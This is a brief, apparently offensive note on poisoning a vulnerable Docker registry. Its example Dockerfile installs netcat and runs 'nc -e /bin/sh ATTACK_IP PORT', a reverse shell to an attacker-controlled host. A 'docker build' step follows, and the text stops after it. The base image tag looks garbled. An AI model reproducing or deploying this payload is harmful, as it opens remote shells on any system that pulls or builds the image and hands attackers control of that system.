 ### Essentially, we can upload/publish/push docker images with malicious code (reverse shell) to a vulnerable docker registry

### Example dockerfile:

#### 1) Dockerfile contents

    FROM debian:jimmy-kekw

    RUN apt-get update -y

    RUN apt-get install netcat -y

    RUN nc -e /bin/sh ATTACK_IP PORT

#### 2)  

    docker build (Compile to image)
